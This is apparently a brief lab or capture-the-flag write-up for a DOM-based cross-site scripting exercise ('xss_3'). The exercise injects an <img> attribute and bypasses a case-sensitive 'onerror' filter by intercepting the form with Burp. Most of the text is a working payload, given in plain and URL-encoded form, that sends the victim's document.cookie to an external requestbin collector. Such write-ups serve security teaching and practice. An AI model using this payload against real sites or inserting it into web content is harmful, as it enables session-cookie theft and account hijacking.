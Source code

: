 # xss_3 - DOM Based on <img> (no `onerror`, case sensitive)
- Here we need to construct a payload that is submitted as part of the form, so this is best done with Burp using intercept to replace the ‘highlight’ value to the URL encoded payload.
- Payload (plain), `x" onError="this['on'+'error']=null;this.src='http://requestbin.fullcontact.com/18kxbln1?c='+document.cookie;">`
- Payload (encoded), `%78%22%20%6f%6e%45%72%72%6f%72%3d%22%74%68%69%73%5b%27%6f%6e%27%2b%27%65%72%72%6f%72%27%5d%3d%6e%75%6c%6c%3b%74%68%69%73%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%72%65%71%75%65%73%74%62%69%6e%2e%66%75%6c%6c%63%6f%6e%74%61%63%74%2e%63%6f%6d%2f%31%38%6b%78%62%6c%6e%31%2f%3f%63%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%22%3e`
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528362023097_Screenshot+2018-06-07+01.59.29.png)
